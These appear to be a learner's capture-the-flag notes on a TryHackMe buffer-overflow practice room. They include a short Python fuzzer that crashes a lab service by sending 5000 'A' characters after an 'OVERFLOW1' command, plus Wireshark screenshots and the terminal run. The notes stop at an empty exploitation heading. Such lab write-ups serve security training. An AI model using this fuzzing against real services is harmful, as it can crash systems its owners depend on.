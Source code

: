 Server crash

Set up WireShark and found which request crashed the server:

![Wireshark filters](../../zzz_res/attachments/Pasted_image_20210502172206.png)

Wireshark filters

![Packet that crash the server](../../zzz_res/attachments/Pasted_image_20210502172357.png)

Packet that crash the server

# The Bug

## Replicate the crash

```python
#!/usr/bin/python
import socket

ip = '10.10.208.211'
port = 1337

cmd = "OVERFLOW1 "
fuzz = "A" * 5000

print "Fuzzing with %s bytes" % len(fuzz)
try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=s.connect((ip,port))
        s.recv(1024)
        s.send(cmd + "/.:/"+fuzz)
        s.close()
except:
        print "\nCould not connect!"

```

Executed the fuzzer:

```bash
┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-1]
└─$ python fuzzer.py
Fuzzing with 5000 bytes
```

![Application crash again](../../zzz_res/attachments/Pasted_image_20210502173506.png)

Application crash again

# Exploitation
